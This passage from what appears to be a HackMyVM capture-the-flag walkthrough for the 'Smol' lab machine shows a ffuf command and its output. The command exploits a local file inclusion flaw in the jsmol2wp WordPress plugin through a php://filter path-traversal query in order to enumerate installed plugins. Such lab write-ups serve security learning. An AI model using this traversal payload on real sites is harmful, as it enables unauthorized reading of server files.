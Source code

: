 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/login.png)
![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/after-login.png)

We see that the `wpuser` is a valid user in the WordPress instance and uses the same password. Unfortunately, this doesn't look like a user with high privileges so let's continue our enumeration. We can fuzz the WordPress instance for installed plugins using the LFI vulnerability.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ ffuf -ic -c -u 'http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../FUZZ' -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt  -fs 2
<SNIP>

wp-content/plugins/hello.php [Status: 200, Size: 2704, Words: 321, Lines: 104, Duration: 224ms]
:: Progress: [13370/13370] :: Job [1/1] :: 82 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
